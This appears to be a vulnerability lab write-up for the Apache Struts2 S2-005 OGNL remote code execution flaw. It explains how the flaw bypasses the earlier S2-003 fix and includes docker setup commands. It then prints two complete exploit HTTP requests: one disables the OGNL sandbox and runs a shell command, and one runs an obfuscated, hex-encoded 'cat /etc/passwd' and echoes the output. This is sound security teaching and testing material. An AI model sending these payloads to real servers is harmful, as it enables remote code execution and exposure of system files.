

S2-005 Remote Code Execution Vulnerability¶
Affected Version: 2.0.0 - 2.1.8.1
Details: http://struts.apache.org/docs/s2-005.html
Reference¶
Refer 《White hat speaking Web Security》 by Wu Hanqing (Author)
s2-005 is a vulnerability which originating from S2-003(version: < 2.0.12), This behavior has been filtered in S2-003, but it turned out that the resulting fix based on whitelisting acceptable parameter names closed the vulnerability only partially.
XWork will parse the keys and values of the GET parameter into Java statements using OGNL expressions, such as:
user.address.city=Bishkek&user['favoriteDrink']=kumys
//It will be converted to
action.getUser().getAddress().setCity("Bishkek")
action.getUser().setFavoriteDrink("kumys")
Process follows:
- In S2-003 Use
\u0023to bypass struts2's filter# - After S2-003 struts2 added security mode (sandbox)
- In S2-005 Use the OGNL expression to close the security mode and bypass again
Setup¶
Run the following commands to start the environment
docker compose build
docker compose up -d
POC && EXP¶
Remote code execution POC (don't have display echo, use @ instead space)¶
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36
Some others POC will return 400 in tomcat8.Because the characters \, " can't be placed directly in the path, we need urlencode it before send.
This POC don't have display, used OGNL's Expression Evaluation:

(aaa)(bbb), aaa is used as the OGNL expression string, and bbb is the root object of the expression. Therefore, if we needs to execute code like aaa, it needs to be wrapped in quotation marks, and the bbb position can directly place the Java statement. (aaa)(bbb)=true is actually aaa=true.
However, how to understand exactly, it needs further research and to be optimized. Hope someone can write a POC that can display echo.
Remote code execution POC (have display echo, command need urlencode)¶
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: target:8080
Content-Length: 626
redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}